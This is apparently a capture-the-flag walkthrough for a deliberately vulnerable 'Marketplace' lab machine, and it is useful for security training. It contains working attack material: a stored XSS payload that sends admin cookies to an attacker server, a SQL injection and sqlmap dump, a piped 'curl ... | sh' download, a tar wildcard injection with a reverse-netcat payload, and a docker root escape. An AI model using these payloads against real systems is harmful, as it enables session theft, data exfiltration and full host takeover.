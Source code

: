 # The Marketplace

Lets start with some recon `nmap -A -sS -T4 <IP>`

Results:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 13:06 EST
Nmap scan report for 10.10.215.43
Host is up (0.033s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.96 ms 10.11.0.1
2   33.09 ms 10.10.215.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

So as we can see we have a simple structure of an ssh login on port 22 and an http webserver on port 80 that is mirrored for nodejs on port 32768. So lets head over to the website! While looking over the website I will run gobuster in the back to find hidden directories.

Okay so we can signup lets do that first thing that catches my eye is the new listing featurenwe can probably upload a revshell there. (Also gobuster returned nothing intresting.) After trying to upload an image I see they have blocked that by putting a No image placeholder:

![Screen1](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.01.31%20PM.png)

So lets just try an XSS attack! With a simple `<script>alert('Hello!')</script>` in the description it works! we get a succesful alert. So lets take it to the next level and check if anyone (like an admin) is checking our post!

Lets start with making a simple server which can accept post request and log the data to our console! I will be making a node.js server for this because its what I prefer but there are many ways to do it. 

Start with a simple `npm init` then we can make a `server.js` file and add some simple code:

```js
const express = require('express')
const app = express()
const port = 3000
var bodyParser = require('body-parser')

// parse application/x-www-form-urlencoded
app.use(bodyParser.urlencoded({ extended: false }))

// parse application/json
app.use(bodyParser.json())

app.use(function(req, res, next) {
  res.header("Access-Control-Allow-Origin", "*");
  res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
  next();
});

app.post('/cookies', (req, res) => {
  console.log(req.body);
})

app.listen(port, () => {
  console.log(`Malicious app listening on port ${port}`)
})
```

then just run `npm i express body-parser` and were good to go!

![Screen2](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%205.49.37%20PM.png)

Now back to the website if we change our script tu send post data to `YOURIP/cookies` we should get it logged directly! Easy right? We can use the following code as a test in our console to make sure we get the data.

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    value: 'value'
}));
```

Which should in result give us a simple `{ value: 'value' }` logged to our console! Well congrats we got the server working and ready to steal data! Now lets iinject this into a ticket! 

So as we had before `<script>alert('XSS')</script>` And just replace whats inside the script with what we just tested!

```html
</textarea>
	<script>
		var xhr = new XMLHttpRequest();
		xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
		xhr.setRequestHeader('Content-Type', 'application/json');
		xhr.send(JSON.stringify({
			value: 'value'
		}));
	</script>
```

It works! Perfect now all we have to do is find important data like cookies and send them over by changing the body to:
`cookies: document.cookie`

Also make sure to report the post to the admins so one actually goes check it out!
After doing that we get:
```json
{
  cookies: 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDY3NjMzNTF9.tG4DQ-jnozS-E3h69kXPOSlwPwAbqeskQZq0DkfseJo'
}
```

Cookies! Yay! We can now use firefox dev tools or just a chrome cookie editor extension and change our token to the admins!

![Screen3](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.23.09%20PM.png)

We now have access to the admins panel + our first flag GG! Lets keep going!
If we click on a user we can see this kind of url: `http://10.10.215.43/admin?user=4`
Which I think indicates it runs an SQL query based on users id so we can SQLi that. Lets try it.

Lets Imagine the query goes as such: 
`SELECT * FROM users WHERE id=(user input)`

So what if we tried inserting in the url the following SQL query:
`6 UNION SELECT @@version,1,1,1;---`
 We get a positive result! 
 
![Screen4](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2010.26.04%20PM.png)
 
So now lets run sqlmap on it:
`sqlmap http://<IP>/admin?user=3 --cookie='token=<TOKEN>' --technique=U --delay=2 -dump`

This will give us some juicy info

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.08.44%20PM.png)
 
Here we have the users table with some hashed passwords. We also get an intresting message:
`Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ`

and it was to `user_id 3` which means thats jake! Lets try logging into
`ssh jake@ip`

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.12.54%20PM.png)

Sick! Were in baby!! We can now just `cat user.txt` and get the second flag!
Time for the best part Priv Esc. I will run a simple [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 

First we can host a server on our Attack Machine: 
`python -m SimpleHTTPServer 80`
Then on our Victim Machine:
`curl <YOUR_IP>/linpeas.sh | sh`

After running linPEAS we have some intresting info:

```
(michael) NOPASSWD: /opt/backups/backup.sh
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

Contents of `/opt/backups/backup.sh`:
```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So we see that we can run the file wthout a password which is good and the file is using * a wildcard character which we can exploit! First in our Attacker Machine we need to create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=<YOUR_IP> lport=9999 R`
After we get the payload back we can now inject it into a file on the victim machine using these following commands:
```bash
echo '<YOUR_PAYLOAD>' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

now if we open a `nc -nvlp 9999` on our machine and try to run: `sudo -u michael /opt/backups/backup.sh` we get an error about backup.tar permissions for michael so lets just `mv backup.tar bk.tar` and now if we run it again we get a reverse shell for michael!

![Screen6](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-09%20at%2011.27.51%20AM.png)

Lets just run a quick `python -c 'import pty; pty.spawn("/bin/sh")'` to get a better shell. So as we saw earlier in linPEAS michael is  docker user so we can exploit that with a quick [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) search! If we just scroll down to ==sudo== we can find the following payload:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Which if we just run, and then check who we are with `whoami`, we are now root!
GG! Was a fun one some SQLi, XSS, Wildcard PrivEsc and Docker. See ya next time!

